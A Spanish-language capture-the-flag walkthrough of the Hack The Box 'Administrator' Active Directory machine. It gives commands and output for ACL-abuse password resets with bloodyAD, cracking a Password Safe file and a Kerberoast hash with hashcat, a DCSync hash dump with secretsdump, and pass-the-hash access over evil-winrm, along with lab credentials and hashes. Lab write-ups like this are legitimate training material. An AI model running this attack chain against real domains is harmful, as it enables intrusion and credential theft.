>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)
{: .prompt-info }

Administrator es una maquina nivel medio de Hack The Box que toca diversos temas básicos de AD, y el como una correcta enumeración, sumado de malas practicas de seguridad y permisos pueden llevar a un compromiso completo del entorno Active Directory.

Como en un pentest real, puede que nos otorgen unas credenciales de acceso, ya que con esto estaremos asumiendo que comprometimos al usuario ya sea a traves de phising, algun reverse shell, o lo que sea.

#### Credenciales:

`Olivia:ichliebedich`

## Compromiso del DC

Iniciando un nmap escaneando todo el sistema en busca de puertos abiertos podemos encontrarnos con lo siguiente a continuacion:

```bash
nmap -A -sVC --min-rate 5000 -T5 -n -p- -vvv 10.10.11.42 -Pn -oN scan.txt
```




Curiosamente esta el puerto ftp abierto, pero no tenemos ningun cve para explotarlo, de vista a lo otro, tenemos puertos tipicos de AD corriendo perfectamente, tales como el 445 (SMB) 88 (`Kerberos`) entre otros.

### Enumeracion de servicios

Podemos empezar obteniendo un ticket kerberos valido para nuestro usuario pre-comprometido (Olivia), para asi omitir la autenticacion de credenciales y ser un poco mas rapidos en el proceso. (Este proceso se explica mejor en la seccion `Kerberos`). Debemos tener en cuenta que tenemos que tener la hora de nuestra maquina atacante sincronizada con la del DC. Con los siguientes comando nos aseguramos de tener un tgt valido para el DC.

```bash
sudo ntpdate -s 10.10.11.42
getTGT.py administrator.htb/olivia:ichliebedich -dc-ip 10.10.11.42
export KRB5CCNAME=olivia.ccache
netexec smb 10.10.11.42 --use-kcache
```



Perfecto, tenemos un ticket valido para nuestra sesion, podriamos ahora utilizar la herramienta BloodHound enumerar el sistema a fondo para descubrir usuarios y permisos, a que podemos acceder y a que no. con el siguiente comando podemos hacerlo:

```bash
bloodhound-python -d administrator.htb -u olivia -k -no-pass -c ALL -ns 10.10.11.42
```



Importándolo a bloodhound nos devuelve la siguiente información relevante:



Vemos que nos devuelve demasiada informacion relevante, incluido un `GenericAll` al usuario Michael, y el usuario Michael tiene el permiso de `ForceToChangePassword` hacia Benjamin, esto por lo general se le conoce como abuso de AD-ACL. Con `BloodyAD` podemos aprovecharnos de estos permisos para explotarlos. Usaremos los siguientes comandos, que nos dan como resultado lo siguiente:

#### Para Michael

```bash
bloodyAD --host dc.administrator.htb -d administrator.htb --dc-ip 10.10.11.42 -k set password 'michael' '0neTw0Thr33123!'
```

#### Para Benjamin

```bash
bloodyAD --host dc.administrator.htb -d administrator.htb --dc-ip 10.10.11.42 -u michael -p '0neTw0Thr33123!' set password 'benjamin' '0neTw0Thr33123!'
```



Con esto matamos dos pajaros de un solo tiro, porque aprovechandonos del GenericAll y el ForceToChangePassword, simplemente es el mismo comando pero con diferente usuario, a exepcion del primero en el cual nos autenticamos via kerberos.

Volviendo a revisar el Bloodhound, nos encontramos con lo siguiente



Nos topamos con que Benjamin pertenece al grupo "Share Moderators". Teniendo en cuenta el escaneo inicial, tenemos un puerto 21 el cual corre `FTP` y por lo cual, disponemos de credenciales validas. Podemos probar, y el resultado que arroja es el siguiente:

```shell
❯ ftp 10.10.11.42 21
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:unknown): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> 
```

Tenemos un archivo interesante llamado "Backup.psafe3", que descargandolo y revisandolo en nuestra maquina nos da lo siguiente:

```shell
❯ cat Backup.psafe3
───────┬─────────────────────────────────────────────────────────────────────────
       │ File: Backup.psafe3   <BINARY>
───────┴─────────────────────────────────────────────────────────────────────────
❯ file Backup.psafe3
Backup.psafe3: Password Safe V3 database
```

Vemos que para ver el contenido de esto necesitaremos una herramienta llamada Password Safe V3 database. Para nuestra suerte, existe una version para linux, por lo que, descargandola y abriendola en nuestra maquina nos muestra lo siguiente:



Nos pide nuestro archivo que previamente nos descargamos mas una pass que no conocemos. Para nuestra suerte, hashcat puede ayudarnos a crackear este archivo para obtener su pass posteriormente. El resultado arroja lo siguiente:

```bash
❯ hashcat -m 5200 Backup.psafe3 /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 12.8)
====================
* Device #1: Quadro P620, 3989/4031 MB, 4MCU

OpenCL API (OpenCL 3.0 CUDA 12.8.97) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: Quadro P620, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

ATTENTION! Potfile storage is disabled for this hash mode.
Passwords cracked during this session will NOT be stored to the potfile.
Consider using -o to save cracked passwords.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1019 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Backup.psafe3:tekieromucho                                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Hash.Target......: Backup.psafe3
Time.Started.....: Fri Apr 11 18:02:22 2025, (0 secs)
Time.Estimated...: Fri Apr 11 18:02:22 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   179.5 kH/s (9.84ms) @ Accel:16 Loops:256 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 16384/14344384 (0.11%)
Rejected.........: 0/16384 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:2048-2049
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> christal
Hardware.Mon.#1..: Temp: 42c Util: 89% Core:1455MHz Mem:3003MHz Bus:8

Started: Fri Apr 11 18:02:10 2025
Stopped: Fri Apr 11 18:02:24 2025
```

Nos encuentra una pass la cual era =="tekieromucho"==, el cual al ingresarlo en la aplicacion nos da acceso, y por ende, tenemos la siguiente interfaz:



El usuario mas relevante que tenemos aqui seria "Emily Rodriguez", esto se debe a que segun en nuestro escaneo de bloodhound tenemos que ella tiene un `GenericWrite` sobre el usuario llamado Ethan. Por lo que leyendo sus propiedades tenemos la siguiente pass:



Utilizandola con netexec para una autenticacion al smb nos devuelve la siguiente informacion:

```bash
❯ netexec smb 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
❯ netexec winrm 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb (Pwn3d!)
```

Emily pertenece al grupo "Remote Management Users" por lo que tenemos acceso a una consola interactiva a traves winrm. Usaremos evil-winrm para autenticarnos al dc de manera remota y asi enumerar ya de manera interna el DC.

```powershell
❯ evil-winrm -i administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> whoami
administrator\emily
*Evil-WinRM* PS C:\Users\emily\Documents> type ..\Desktop\user.txt
0488e1e**************************
*Evil-WinRM* PS C:\Users\emily\Documents> 
```

Tenemos la primera flag, recordemos que Emily tiene permisos de GenericWrite sobre el usuario Ethan. Para aprovecharnos de este DACL podemos utilizar la herramienta targetedKerberoast, la cual se encarga de aprovecharse de este permiso para asi obtener el hash del usuario victima en formato krb5 y asi poder crackearlo de manera offline. Nos da el siguiente resultado al ejecutarlo:

```shell
❯ ./targetedKerberoast.py --dc-ip 10.10.11.42 -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$62175b92bde036374e0c434f27d.......
```

Y crackeandolo con hashcat nos da lo siguiente:

```shell
❯ hashcat hash2.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --force
hashcat (v6.2.6) starting in autodetect mode

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 12.8)
====================
* Device #1: Quadro P620, 3989/4031 MB, 4MCU

OpenCL API (OpenCL 3.0 CUDA 12.8.97) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: Quadro P620, skipped

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 35 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$62175b92bde036374e0c434f..............:limpbizkit

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....766f2e
Time.Started.....: Fri Apr 11 19:20:35 2025, (0 secs)
Time.Estimated...: Fri Apr 11 19:20:35 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6768.2 kH/s (7.03ms) @ Accel:512 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 65536/14344384 (0.46%)
Rejected.........: 0/65536 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> ryanscott
Hardware.Mon.#1..: Temp: 42c Util: 27% Core:1177MHz Mem:3003MHz Bus:8

Started: Fri Apr 11 19:20:21 2025
Stopped: Fri Apr 11 19:20:36 2025
```

Perfecto, tenemos la clave de Ethan crackeada. Que prosigue? Podemos revisar nuevamente el bloodhound y ver que permisos tiene sobre los demas, por lo que, revisando, nos da de resultado lo siguiente:



Esto es algo critico, ya que con el ADCL DCSync, podemos dumpearnos todas las credenciales del DC, y asi obtener el hash del administrador. En que consiste este ataque?

El ataque **DCSync** es una técnica avanzada que permite a un atacante simular el comportamiento de un controlador de dominio (DC) en un entorno de Active Directory (AD) para solicitar la replicación de datos sensibles, como los hashes de contraseñas de los usuarios, sin necesidad de ejecutar código en el propio DC.

Es BASTANTE beneficiosos para nosotros, pero demasiado riesgoso para el dominio. Para explotarlo, usaremos la siguiente herramienta de impacket, la cual es secretsdump.py. Probando nos da lo siguiente:

```shell
❯ secretsdump.py administrator.htb/ethan:limpbizkit@dc.administrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:53a42eb08454a9349e2bddddd613dcdc:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:53a42eb08454a9349e2bddddd613dcdc:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
.......
[*] Cleaning up... 
```

Nos da el hashnt del administrador, por lo que, mediante un ataque `Pass The Hash` nos conectamos como administradores a traves de evil-winrm y posterior, comprometemos todo el dominio y leemos la flag.

```powershell
❯ evil-winrm -i administrator.htb -u administrator -H 3dc553ce4b9fd20bd016e0.....
 
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
815812ecae946****************
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Y asi hemos comprometido todo el DC.